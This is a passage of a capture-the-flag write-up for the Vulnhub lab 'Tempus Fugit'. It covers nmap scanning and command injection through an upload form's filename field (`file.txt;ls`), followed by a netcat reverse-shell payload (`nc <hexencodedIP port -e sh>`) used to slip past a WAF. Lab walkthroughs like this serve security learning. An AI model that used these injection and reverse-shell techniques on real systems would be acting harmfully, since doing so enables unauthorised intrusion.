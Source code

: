 ```yaml
---
layout:     ""
title:      "Vulnhub - Tempus Fugit"
subtitle:   "Write-Up"
date:       2019-08-26
author:     "D4mianwayne"
tag:     ["nmap, ctf, vulnhub"]
img:  "/img/vulnhub.png"
draft: false
---
```



Writeup for [Tempus Fugit](https://www.vulnhub.com/entry/tempus-fugit-1,346/) by [4ndr34z](https://twitter.com/4ndr34z) and [DCUA7](https://twitter.com/DCAU7).

# Foreword

This machine had a internal network/machine that was our real target and it teaches you about how reconnaisance can often lead you to the vulnerable machine in a network.

# Nmap

Starting off with nmap, scanning with `nmap -sV -sC -A -p- 192.168.43.224` which shows that we have only one port open i.e. 80 aka HTTP. So, let's check it.

![](/img/TempusFugit/nmap.png)

# HTTP Enumeration 

Going to the HTTP port gives a good looking UI having a upload feature which will be saved to their internal FTP network of the machine. Now, let's try to upload something which might lead us to something nasty. But as a **sanity check** I tried to upload `.php` file but it only accepts `rtf` and `txt` files, since it wasn't a windows machine any kind of `rtf` related exploit would be pointless.
Next I tried to intercept the traffic via Burp Suite, now as we can see the contents which was being rendered and the file name field, so as a **sanity check** again, I added `file.txt;ls` to check it's listing the files from that folder or not, at this point [DCAU7](https://twitter.com/DCAU7) helped me. So, it was possible to do a command injection from the file field parameter, the command `nc < hexencodedIP port -e sh>` pointed out by the [DCAU7](https://twitter.com/DCAU7), probably WAF was preventing the standdard IP from being executed in the same order it was supposed to.

![](/img/TempusFugit/burp.png)

Starting the listener and executing that payload of ours, landed a reverse shell.

![](/img/TempusFugit/tempus.png)

# First Network and FTP Enumeration
